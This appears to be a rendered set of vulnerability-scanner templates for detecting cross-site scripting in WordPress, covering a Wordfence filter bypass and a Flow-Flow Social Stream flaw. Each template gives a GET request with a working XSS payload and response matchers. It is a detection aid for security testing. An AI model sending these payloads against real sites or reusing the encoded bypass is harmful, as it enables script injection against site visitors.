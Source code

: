 **Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# Wordpress Wordfence - Cross-Site Scripting
## Description
- Wordpress Wordfence is vulnerable to cross-site scripting.
- severity - medium
- tags - wordpress,wordfence,xss,bypass
## Requests
- Method - GET
### URL
- {{BaseURL}}/?s=ax6zt%2522%253e%253cscript%253ealert%2528document.domain%2529%253c%252fscript%253ey6uu6
### Matchers

**Type - word**
- words
    1. \<script>alert(document.domain)\</script>
- part - body

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress Flow-Flow Social Stream \<=3.0.71 - Cross-Site Scripting
## Description
- WordPress Flow-Flow Social Stream 3.0.7.1 and prior is vulnerable to cross-site scripting.
- severity - medium
- tags - xss,wordpress,wpscan
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-admin/admin-ajax.php?action=fetch_posts&stream-id=1&hash=%3Cimg%20src=x%20onerror=alert(document.domain)%3E
### Matchers
